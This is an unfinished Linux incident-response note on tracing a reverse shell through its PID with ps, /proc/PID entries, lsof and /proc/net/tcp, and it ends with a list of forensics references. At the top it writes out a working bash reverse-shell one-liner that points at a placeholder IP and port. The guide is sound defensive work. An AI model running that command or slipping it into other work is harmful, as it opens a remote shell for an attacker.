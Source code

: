 # Tracking Activity using PID
## reverse shells
```bash
bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1
```

## List processes running
```bash
ps -auxw
```
Listing the processes should allow you to see the bash shell running. The shell will have the interactive (-i) flag. In general, this isn't terribly common and is a good place to start. 

```
add example of what the output will look like from ps command
```



## Change Directory to /proc/PID of the suspicious process
```bash

cd /proc/PID
ls -al
```

```bash
show out up
```

look for exe -> /usr/bin/bash
This shows the reverse shell is connected to this executable
```bash
show out up
```



##
```bash
/proc/PID/fd
ls -al
```
![/proc/pid/fd](https://redcanary.com/wp-content/uploads/2022/08/image2-1024x468.png "/proc/pid/fd")


you can see that stdin, stdout, and stderr are all connected to sockets and the inode number that we will see again later. This is a red flag. 
find out what those socket types are. Look for weird files open, payload dirs, etc.


## Search for file opened by this reverse shell
```bash
lsof -p PID
```
![lsof PID](https://redcanary.com/wp-content/uploads/2022/08/image1.png "lsof")

this will show the ip addresses of the remote host it has conencted to. Can also use tools like netstat or ss to see open sockets.


## check out /proc/net/tcp 
This will list all open TCP sockets and is the raw data networking tools use to show what is happening. Here we see the inode # of the open sockets and that they are connected to something with TCP.

```bash
cat /proc/net/tcp
```
This will show you the inode number that should match with the inode number shown when seeing the connection to stdin, stdout, stderr. 



### References:
 - https://x.com/craighrowland/status/1802850025443336414
 - https://www.halkynconsulting.co.uk/a/2020/11/linux-incident-response-guide/
 - https://library.mosse-institute.com/articles/2022/05/perform-remote-code-execution-with-the-use-of-reverse-shells/perform-remote-code-execution-with-the-use-of-reverse-shells.html
 - https://tomtietz.github.io/blog/2023/03/07/remote-shells.html
 - https://redcanary.com/blog/threat-detection/process-streams/
 - https://www.thedfirspot.com/post/linux-forensics-collecting-a-triage-image-using-the-uac-tool
 - https://aboutdfir.com/toolsandartifacts/linux/
 - https://www.linuxleo.com/
 - https://www.cybertriage.com/blog/collecting-linux-dfir-artifacts-with-uac/
 - https://linuxsecurity.expert/security-tools/
